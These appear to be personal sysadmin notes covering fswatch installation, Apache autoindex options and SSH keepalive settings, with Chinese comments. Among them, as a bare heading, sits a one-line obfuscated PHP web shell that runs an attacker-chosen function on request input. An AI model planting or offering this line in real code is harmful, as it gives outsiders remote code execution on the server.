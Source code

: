# fswatch
* `go install github.com/codeskyblue/fswatch`

# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```

    Options Indexes FollowSymLinks
    IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```

# ($_=@$_GET[2]).@$_($_POST[1])

# ssh connection alive

* server
```
TCPKeepAlive yes #表示TCP保持连接不断开
ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。设置个300表示5分钟发送一次（注意，这里是服务端主动发起），然后等待客户端响应，成功，则保持连接。
ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
#注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
```
* client
```
Host * #表示需要启用该规则的服务端（域名或ip）
	ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
	ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
* one time
`ssh -o ServerAliveInterval=30 user@host`
